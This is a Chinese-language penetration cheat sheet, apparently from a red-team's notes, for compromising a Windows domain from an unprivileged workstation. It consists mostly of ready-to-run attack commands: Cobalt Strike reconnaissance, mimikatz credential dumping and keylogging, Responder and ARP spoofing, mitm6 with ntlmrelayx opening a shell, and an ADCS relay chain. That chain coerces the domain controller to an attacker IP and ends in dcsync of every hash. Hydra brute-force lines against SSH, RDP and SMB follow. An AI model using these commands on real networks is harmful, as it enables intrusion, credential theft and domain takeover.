 # windows 无权限渗透
开局一台个人机
# 信息收集
## 1. 内网扫描
```
nmap
nmap -sP -p <ip> #ping 扫描
nmap -PN -sV --top-ports 50 --open <IP> #快速扫描
nmap -PN  --script smb-vuln* -p139,445 <IP> #扫描 smb 漏洞
nmap -PN -sC -sV <ip>#经典扫描
nmap -PN -sC -sV -p <ip>#全扫描
nmap -sU -sC -sV <ip>#udp扫描
cs
portscan [targets] [ports] [arp|icmp|none] [max connections]
```
## 2. 个人机信息收集
```
cobaltstrike + seatbelt (利用seatbelt 遍历 有趣的文件)
execute-assembly /path/seatbelt.exe InterestingFiles  有趣文件
execute-assembly /path/seatbelt.exe InstalledProducts 安装程序
execute-assembly /path/seatbelt.exe InterestingProcesses  进程

详情:https://github.com/GhostPack/Seatbelt
因为Seatbelt是.NET程序所以可以用execute-assembly直接注入目标内存运行
```
## 3.浏览器保存的密码和浏览记录
## 4.个人机的账号密码
```
cs 的mimikztz 
logonpasswords            Dump credentials and hashes with mimikatz
```
## 5.键盘记录
```
cs 的键盘记录
keylogger                 Inject a keystroke logger into a process
```
## 6.该机器的社交软件

# 中间人攻击
## 1.responder
```
https://github.com/lgandx/Responder-Windows  编译好的windows 版本
responder.exe -wrf -i ip   抓NTLM HASH 然后破解
```
## 2.ARP
```
https://github.com/ivanvza/arpy
arpy -t <Target IP> -g <Gateway IP> -i <Interface>
伪装网关,截取目标机流量 再用windump 抓取流量 #慎用容易照成目标网络奔溃
```
## 3.mitm6
利用IPv6和DNS将凭证中继到目标。在默认情况下，IPv6协议是处于启用状态的，并且实际上其优先级会大于IPv4协议，这意味着，如果计算机上有IPv6 DNS服务器的话，它会优先使用IPv6服务器，而不是IPv4服务器。另外，默认情况下，Windows计算机会通过DHCPv6请求来查找IPv6 DNS服务器，如果使用伪造的IPv6 DNS服务器进行欺骗，则可以有效地控制设备查询DNS的方式
```
1.伪造dns服务器
mitm6 -i eth0 -d<domain>

2.伪造WPAD应答来控制了DNS
ntlmrelayx.py -wh 192.168.218.129 -t smb://192.168.218.128/ -i
-wh：托管WPAD文件的服务器（攻击者的IP）
-t：目标系统
-i：打开一个交互式shell
```
## 4.NTLM Relay攻击ADCS证书服务
```
1.定位ca服务器
certutil -config - -ping

2.测试连通性
curl http://CA_server_ip/certsrv -I

3.impacket设置监听
impacket-ntlmrelayx -debug -smb2support --target http://CA_server_ip/certsrv/certfnsh.asp --adcs --template DomainControlle

4.打印机bug,让域控回连到我们监听的服务上
SpoolSample.exe dcip attackip
python3 printerbug.py domain/user:password@dcip attackip

5.从 3 中获得证书

6.使用Rubeus.exe获取tgt
Rubeus.exe asktgt /outfile:kirbi /user:dc01$ /ptt /certificate:获取的证书

7.mimikatz导hash
lsadump::dcsync /all /csv /domain:xxxx
```
# 前辈们的痕迹
```
1.3389 后门
4下shift,其他代替的功能
2.匿名访问共享
smbmap -u "guest" -p "" -P 445 -H <dc-ip>
3.不应该存在的txt
```

# Hydra爆破(慎用容易产生报警)
```
#使用hydra破解ssh的密码
hydra -L users.txt -P password.txt -vV -o ssh.log -e ns IP ssh
#破解https：
hydra -m /index.php -l username -P pass.txt IP https
#破解teamspeak：
hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak
#破解cisco：
hydra -P pass.txt IP cisco
hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable
#破解smb：
hydra -l administrator -P pass.txt IP smb
#破解pop3：
hydra -l muts -P pass.txt my.pop3.mail pop3
#破解rdp：
hydra IP rdp -l administrator -P pass.txt -V
#破解http-proxy：
hydra -l admin -P pass.txt http-proxy://10.36.16.18
#破解telnet
hydra IP telnet -l 用户 -P 密码字典 -t 32 -s 23 -e ns -f -V

```
# 钓鱼

#后续会补充
